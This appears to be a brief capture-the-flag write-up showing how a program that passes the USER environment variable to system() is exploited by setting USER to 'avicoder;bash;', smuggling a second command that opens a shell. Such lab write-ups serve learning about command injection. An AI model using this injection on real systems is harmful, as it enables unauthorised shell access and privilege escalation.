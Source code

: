 - `USER` env variable seems fishy 
- set USER to some other variable : 
      
          export USER=avicoder
                
- Result is
    
          about to call system("/bin/echo avicoder is cool")
          
- Set the USER env variable to `avicoder;bash;`

          about to call system("/bin/echo avicoder;bash; is cool")

- Solved.
